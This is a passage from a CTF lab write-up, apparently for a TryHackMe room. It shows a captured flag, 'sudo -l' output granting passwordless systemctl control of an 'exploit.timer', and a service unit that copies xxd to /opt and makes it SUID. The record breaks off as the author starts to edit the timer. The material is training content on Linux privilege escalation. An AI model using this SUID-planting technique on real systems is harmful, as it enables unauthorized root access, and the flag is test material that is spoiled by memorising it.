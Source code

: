 ```
THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}

```

# Privilege Escalation

For the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we can check sudo commands without passwd :

```
comte@ip-10-10-8-70:~$ sudo -l
User comte may run the following commands on ip-10-10-8-70:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

```

If we go in /etc/systemd/system and cat exploit.timer and then exploit.server (they go togheter) :

```
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

```

if we try to restat the exploit.timer it failed and if we status it says **bad-settings :**

```
comte@ip-10-10-8-70:/etc/systemd/system$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service

```

We can modify the **settings** with **[Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md)** :
